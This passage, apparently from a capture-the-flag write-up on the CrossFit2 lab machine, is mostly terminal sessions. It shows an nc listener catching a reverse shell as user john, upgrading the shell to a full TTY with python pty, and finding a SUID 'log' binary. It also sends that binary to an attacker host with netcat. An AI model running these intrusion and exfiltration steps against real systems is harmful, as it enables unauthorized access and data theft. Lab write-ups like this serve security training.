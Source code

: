 After about a minute we get a shell on our listener as john which we upgrade using python.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.68.20.
Ncat: Connection from 10.129.68.20:23188.
/bin/sh: No controlling tty (open /dev/tty: Device not configured)
/bin/sh: Can't find tty file descriptor
/bin/sh: warning: won't have full job control
crossfit2$ python3 -c 'import pty;pty.spawn("/bin/sh")'
crossfit2$ export TERM=xterm
export TERM=xterm
crossfit2$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

crossfit2$ id
uid=1005(john) gid=1005(john) groups=1005(john), 20(staff), 1003(sysadmins)
```

## LogReader

john is in the staff group and looking for files belonging to this group we find the  `/usr/local/bin/log` binary.

```
crossfit2$ find / -group staff 2>/dev/null
/usr/local/bin/log
```

Taking a closer look at it we see it has the suid bit set which makes it very interesting.

```
crossfit2$ ls -la /usr/local/bin/log
-rwsr-s---  1 root  staff  9024 Jan  5  2021 /usr/local/bin/log
```

For further examination we transfer the file over to our local machine using ncat and check the file hashes once the transfer is completed to ensure nothing got corrupted.

```
$ nc -lnvp 43212 > log
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::43212
```

```
crossfit2$ nc 10.10.14.65 43212 < /usr/local/bin/log
```

```
$ nc -lnvp 43212 > log
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::43212
Ncat: Listening on 0.0.0.0:43212
Ncat: Connection from 10.129.68.20.
Ncat: Connection from 10.129.68.20:43781.
^C
```
